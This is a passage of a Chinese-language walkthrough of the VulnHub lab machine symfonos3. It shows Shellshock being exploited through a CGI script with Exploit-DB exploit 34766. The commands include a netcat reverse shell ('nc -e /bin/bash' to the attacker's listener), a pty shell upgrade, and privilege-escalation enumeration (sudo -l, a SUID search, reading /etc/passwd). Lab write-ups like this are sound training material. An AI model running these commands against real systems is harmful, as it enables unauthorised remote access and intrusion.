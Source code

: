
# 中期-漏洞利用

看上去就像 `uptime` 的输出,查了下,应该是 shellshock 漏洞
```bash
searchsploit -w shellshock
```

找个 https://www.exploit-db.com/exploits/34766 测试下

kali 监听
```bash
nc -lvp 4444
```

执行命令,回弹 shell
```bash
wget https://www.exploit-db.com/download/34766
mv 34766 34766.php
php 34766.php -u http://192.168.141.150/cgi-bin/underworld -c "nc -e /bin/bash 192.168.141.134 4444"
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/20.png)

下面尝试提权

---

# 后期-水平提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
cat /etc/passwd
```
